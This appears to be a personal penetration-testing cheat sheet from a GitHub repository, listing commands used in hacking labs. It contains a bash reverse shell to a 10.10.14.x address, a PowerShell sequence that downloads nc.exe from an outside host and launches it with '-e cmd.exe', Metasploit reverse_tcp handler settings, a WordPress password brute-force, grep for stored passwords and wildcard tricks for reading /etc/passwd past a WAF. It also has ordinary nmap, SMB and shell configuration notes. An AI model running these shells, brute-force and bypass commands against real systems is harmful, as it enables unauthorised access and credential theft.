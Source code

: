 ## Some commands which I used frequently 

### python command for bash 

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' 
```

### nice script for reverse
echo 'bash -i >& /dev/tcp/10.10.14.44/10000 0>&1' > shell.sh ; chmod +x shell.sh

### spawn nicer shell 

```/usr/bin/script -qc /bin/bash /dev/null ```

### to get nobody removed in NFS share
```
sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share
```

### msf meterpreter shell listener
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp
```

### Search 
```
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2
```

### nmap
```
Scan using default safe scripts         :	nmap -sV -sC 

Scan 100 most common ports (Fast)       :	nmap -F 
Scan using TCP connect                  :	nmap -sT 
Scan using TCP SYN scan (default)       :	nmap -sS 
Scan UDP ports                          :	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		    :	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		    :	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		  :	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						          :	nmap -Pn -p445 --script vuln -oN reconop.txt 
```

### SMB as used for msf
```
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```
### SMB as cmd
```
smbclient //1.1.1.4/ < folder name >
```
### smbmap
```
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication
```

### where command in win to search type of files
```
where /r c:\ proof.txt
```

### Wordpress brute force
```
wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt
```

### shell from powershell 
```
first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow
```

### Dropbox links
```
ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data
```

### file browser for jsp
```
java -jar file-browser.jar
```

### gcc
```
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp
```
### rpc commands
```
rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users
```

### /etc/passwd WAF restriction? Use these:
```
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
### paths for .bashrc
```
export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups
```
### paths for .zshrc
```
export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
```
### dhclient by default

```
sudo nano /etc/rc.local


#!/bin/bash
dhclient
exit 0


sudo chmod 755 /etc/rc.local

sudo systemctl enable rc-local

sudo systemctl restart rc-local

sudo systemctl status rc-local
```


---END
